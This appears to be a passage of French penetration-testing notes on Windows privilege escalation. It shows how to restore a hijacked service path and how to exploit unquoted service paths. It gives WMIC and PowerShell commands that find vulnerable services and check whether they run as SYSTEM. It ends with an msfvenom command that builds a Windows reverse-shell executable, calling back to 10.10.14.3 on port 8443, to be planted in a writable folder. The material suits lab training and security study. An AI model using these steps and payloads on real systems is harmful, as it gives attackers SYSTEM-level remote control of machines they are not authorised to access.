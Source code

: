 ### 5. Remettre le path originale

```cmd-session
sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"
```

### 6. Relancer le service

```cmd-session
sc start WindScribeService
```

```cmd-session
sc query WindScribeService
```


## Unquoted Service Path

> [!TIP]
> Si possible d'écrire dans un dossier du path qui contient un espace et pas d'apostrophe -> Placer une charge malveillante dans le dossier en question. 

### 1. Identifier les Unquoted Service Path

```cmd-session
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

```powershell
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName
```


### 2. Voir si le service tourne en tant que SYSTEM

```
cmd /c sc qc <service name>
```


### 3. Verifier si possible d'écrire dans le path



### 4. Créer charge malveillante portant le nom du dossier parent

Exemple:
- `C:\Program Files (x86)\System Explorer\service\SystemExplorerService64`
- Si possible d'écrire dans System Explorer

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f exe > System.exe
```
